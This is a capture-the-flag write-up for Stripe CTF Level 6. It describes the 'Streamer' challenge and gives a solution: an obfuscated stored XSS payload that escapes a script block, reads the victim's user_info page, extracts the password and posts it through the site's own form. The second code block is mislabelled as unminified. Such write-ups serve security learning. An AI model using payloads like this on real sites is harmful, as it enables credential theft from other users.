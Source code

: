 ## Level 6

After Karma Trader from Level 4 was hit with massive karma inflation (purportedly due to someone flooding the market with massive quantities of karma), the site had to close its doors. All hope was not lost, however, since the technology was acquired by a real up-and-comer, Streamer. Streamer is the self-proclaimed most steamlined way of sharing updates with your friends. You can access your Streamer instance here: https://level06-1.stripe-ctf.com/user-xxxxxxxxxx.

The Streamer engineers, realizing that security holes had led to the demise of Karma Trader, have greatly beefed up the security of their application. Which is really too bad, because you've learned that the holder of the password to access Level 7, level07-password-holder, is the first Streamer user.

As well, level07-password-holder is taking a lot of precautions: his or her computer has no network access besides the Streamer server itself, and his or her password is a complicated mess, including quotes and apostrophes and the like.

Fortunately for you, the Streamer engineers have decided to open-source their application so that other people can run their own Streamer instances. You can obtain the source for Streamer at `git clone https://level06-1.stripe-ctf.com/user-xxxxxxxxxx/level06-code`. We've also included the most important files below.

### Running

- Install bundler: 'gem install bundler'
- Run srv.rb: './srv.rb'
- Point your browser to localhost:4567

### Solution

#### Unminified Version:

```javascript
}];
</script>
<script>
  a = document.URL + String.fromCharCode(117, 115, 101, 114, 95, 105, 110, 102, 111); // 'user_info'
  b = String.fromCharCode(35, 99, 111, 110, 116, 101, 110, 116);                      // '#content'
  c = String.fromCharCode(35, 110, 101, 119, 95, 112, 111, 115, 116);                 // '#new_post'
  $.get(a, function(data) {
    var re = /<td>(.*)</g;
    re.lastIndex = 0;
    while (match = re.exec(data)) {
      password = match[1];
    }
    if (password) {
      $(b).val(escape(password));
      $(c).submit();
    }
  });
</script>
<script>
```

#### Unminified Version:
```javascript
}];</script><script>a=document.URL+String.fromCharCode(117,115,101,114,95,105,110,102,111);b=String.fromCharCode(35,99,111,110,116,101,110,116);c=String.fromCharCode(35,110,101,119,95,112,111,115,116);$.get(a,function(data){var re=/<td>(.*)<\/td>/g;re.lastIndex=0;while(match=re.exec(data)){password=match[1]}if(password){$(b).val(escape(password));$(c).submit()}});</script><script>
```

Originally posted at [https://stripe-ctf.com/levels/6](https://stripe-ctf.com/levels/6).
